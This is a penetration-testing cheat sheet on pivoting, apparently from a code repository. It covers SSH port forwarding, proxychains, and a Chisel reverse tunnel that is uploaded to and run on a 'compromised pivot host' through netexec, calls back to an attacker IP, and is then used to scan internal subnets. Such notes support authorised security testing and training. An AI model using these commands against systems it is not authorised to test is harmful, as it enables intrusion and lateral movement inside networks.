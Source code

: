# Pivoting & Port Forwarding

## Dynamic Port Forwarding with SSH & SOCKS

### Local Port forward using SSH
> Most useful for services that are not available to anything but localhost.
* Forward a single port on the local host to a single port on a remote host.
```bash
ssh -L [local port]:localhost:[remote port] [user]@[$IP]
```
* Forward multiple ports
```bash
ssh -L [local port]:localhost:[remote port] -L [local port]:localhost:[remote port] [user]@[$IP]
```

### Dynamic Port Forwarding using SSH (SSH Tunneling over SOCKS)
* Verify proxychains is set up for Dynamic Port Forwarding
```bash
tail -4 /etc/proxychains4.conf

# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```
* Setup the tunnel over SSH
```bash
ssh -D [localport] [user]@[$IP]
```
* Verify
```bash
proxychains4 -q nxc smb [remote subnet] -u '' -p ''
```

## Pivoting with [Chisel](https://github.com/jpillora/chisel)
### Reverse Tunnel
#### Setup
* Download the appropriate binaries for the target and attack host
* Verify you have command execution on the pivot host
* Upload the appropriate binary to the compromised pivot host:
```bash
# example using netexec
nxc smb $IP -u [user] -p [pass] --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe
```
#### Execution
* Start the server on the attack host
```bash
./chisel server --reverse
```
* Connect the chisel client (on the pivot host) to the server (on the attack host)
```bash
# Example using netexec
nxc smb $IP -u [user] -p [pass] -x 'C:\Windows\Temp\chisel.exe client [attacker IP]:8080 R:socks'
```
* Verify server recieved the connection
```bash
# Example
2022/11/06 10:57:54 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
* Verify proxychains is setup for the tunnel
```bash
tail /etc/proxychains4.conf

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```
* Verify connection
```bash
# Example using netexec
proxychains4 -q nxc smb $IP -u [user] -p [pass] --shares

# or even better, scan the whole subnet
proxychains4 -q nxc smb [subnet]/[CIDR]
```
* Killing chisel on the pivot host
```bash
# Example using netexec
nxc smb $IP -u [user] -p [pass] -X 'Stop-Process -Name chisel -Force'
```
'CTRL-C' to kill the server on the attack host

